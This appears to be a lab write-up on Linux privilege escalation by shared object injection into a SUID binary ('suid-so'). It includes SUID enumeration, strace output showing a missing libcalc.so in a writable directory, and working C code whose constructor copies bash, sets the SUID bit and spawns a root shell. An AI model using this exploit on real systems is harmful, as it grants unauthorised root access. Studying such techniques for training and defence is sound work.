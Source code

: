 
Shared Object injection (SO Injection)

`find / -type f -perm -04000 -ls 2> /dev/null`

Run that and you get this output.

```
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
```

We're actually going to focus here on the `/usr/local/bin/suid-so`.  If we look, we see that it's SUID is set (-rwSr-Sr-x).  The two S's refer to the SUID.  Also, we try to run it and get the following output.

``` 
TCM@debian:~$ ls -la /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
TCM@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

So we can't see what's going on here, or can we?

Use a tool called strace to essentially watch what's going on in the background.

`strace /usr/local/bin/suid-so 2>&1`

This command by itself will spit out a bunch of information.  We can `grep` the output down.  If we scroll up in the original output we see some items with "access" and "open" and "no such file".  Let's see if we can isolate that.

`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`

Much cleaner.

```
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

The big one here is the one in the /user/ directory.  The libcalc.so.

We can go through this list and check the `ls -la` on them.  The libcalc though is the one we want to focus on.

We can add some c code and make the file named that so we can replace it.

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Then compile that and put it where there was the (No File Found) and then rerun the suid-so program in order to kick the script off.

The big thing you are looking for here is a file that is being looked for but isn't found.  And to find it in a place where you have write permissions to make and compile the file into the right location.  Also, in the script, that we're making a copy of /bin/bash and then running things with that copy so we don't mess up the original /bin/bash.